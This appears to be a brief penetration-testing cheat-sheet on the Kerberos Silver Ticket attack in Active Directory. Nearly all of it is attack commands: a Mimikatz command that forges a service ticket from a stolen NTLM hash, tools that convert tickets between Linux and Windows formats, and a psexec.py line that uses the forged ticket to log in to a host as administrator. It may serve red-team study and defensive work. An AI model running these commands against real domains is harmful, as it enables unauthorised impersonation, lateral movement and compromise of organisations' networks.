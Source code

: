 # Silver Ticket Attack
Requires a service account password or NTLM hash, to forge a TGS. Can be avoided with PAC enabled?

impacket ticketer.py

## Create a ticket for the service with Mimikatz
`kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<TARGET/HOST.DOMAIN.FQDN> /rc4:<NTLM_MACHINE> /service:<SERICE>`

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`

## Then use the same steps as a Golden ticket with Mimikatz
`export KRB5CCNAME=/home/user/ticket.ccache`
`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`